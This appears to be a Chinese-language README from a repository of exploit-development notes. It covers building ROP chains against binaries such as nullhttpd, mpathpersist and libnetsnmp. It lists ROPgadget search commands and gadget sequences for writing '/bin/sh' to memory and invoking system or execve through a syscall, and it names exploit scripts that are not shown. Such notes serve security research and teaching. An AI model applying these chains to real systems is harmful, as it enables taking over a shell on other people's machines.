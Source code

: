 ## 任意写
向任意内存地址rw写入内容"/bin/sh"，然后调用sys。

需要寻找往内存中写入数据的gadget（mov）
```
ROPgadget --binary mpathpersist.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary mpathpersist.bin --only "mov|ret"
ROPgadget --binary mpathpersist.bin --only "mov|pop|ret"
ROPgadget --binary mpathpersist.bin | grep -v "jmp" | grep "mov qword"

----------------------
mov, stos, movs, movzx
```

然后查找控制寄存器的值的gadget(pop rdi)

然后寻找可写入地址(.data 和.bss)，和写入 p64(0x68732f6e69622f) （"/bin/sh"）
```
readelf -S nullhttpd.bin
---------------------------
pop rsi, ret
pop rdi, ret
mov qword ptr [rsi], rdi
pop rdi, ret
sys_addr
---------------------------
mov qword ptr [rbx], rax ; add rsp, 0x18 ; pop rbx ; pop rbp ; ret

mov byte ptr [rbp], 0 ; pop rbx ; pop rbp ; pop r12 ; ret
add dword ptr [rbp - 0x3d], ebx ; nop ; ret



```

调用sys（设置参数rdi）
```
ROPgadget --binary mpathpersist.bin --only "pop|ret" | grep "rdi"
```

## evecve调用
调用execve(”/bin/sh”, 0, 0)。需要设置
`rdi`:"/bin/sh"地址
`rsi`:0
`rdx`:0
`rax`:0x3b
寻找syscall指令地址

```
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "eax"

-------------------
基于1写入/bin/sh，（binsh_addr, 0, 0）
设置0然后add或sub
pop rdi, ret
pop rsi, ret
pop rdx, ret
pop eax, ret  | mov eax, 0x3b
syscall_addr
-------------------
设置rdx|edx -> 0

shl edx
xor
mov rdx, qword ptr [rbp - 8] ; mov qword ptr [rax], rdx ; pop rbp ; ret
xor edx, edx ; mov eax, edx ; pop rbx ; ret
shl edx, 4 ; add eax, edx ; ret  *8 time

0x0000000000423e58 : movzx edx, word ptr [rbp - 0x1c] ; mov word ptr [rax + 0x10], dx ; pop rbp ; ret

```

```
ROPgadget --binary libnetsnmp.so.40.2.1.bin --only "pop|ret" | grep "rdi"
ROPgadget --binary libnetsnmp.so.40.2.1.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep -v "\[rdx" | grep -v "\[edx" | grep "dx"

ROPgadget --binary libnetsnmp.so.40.2.1.bin | grep -v "jmp" | grep "mov qword"
ROPgadget --binary libnetsnmp.so.40.2.1.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep "mov qword"
ROPgadget --binary libnetsnmp.so.40.2.1.bin | grep -v "retf" | grep "ret" | grep -v "leave" | grep "\["

ROPgadget --binary libnetsnmp.so.40.2.1.bin | grep "syscall"

```
## 可控参数检查
rdi, rsi, rdx, rcx, r8, r9 或ecx
```
ROPgadget --binary nullhttpd.bin --only "pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin --only "mov|pop|ret" | grep "rcx"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "r8"
ROPgadget --binary nullhttpd.bin | grep -v "jmp" | grep "ret" | grep "xchg" | grep "r8"

-------------------
pop, mov，xchg, xor

pop rdi, ret
pop rsi, ret
pop rdx, ret
pop rcx, ret
pop r8, ret
pop r9, ret

mov rdi, ret
mov rsi, ret
mov rdx, ret
mov rcx, ret
mov r8, ret
mov r9, ret

check_argv_addr
```

设置可控参数，然后调用check_argv(返回到那个地址)

| register | value    |
| -------- | -------- |
| rdi      | 0x100001 |
| rsi      | 0x100002 |
| rdx      | 0x100003 |
| rcx      | 0x100004 |
| r8       | 0x100005 |
| r9       | 0x100006         |


## 目录
- binary
- debug.sh
- run.sh
- gadget
- rop.py
- rop1.py
- rop2.py
- rop3.py
- inp
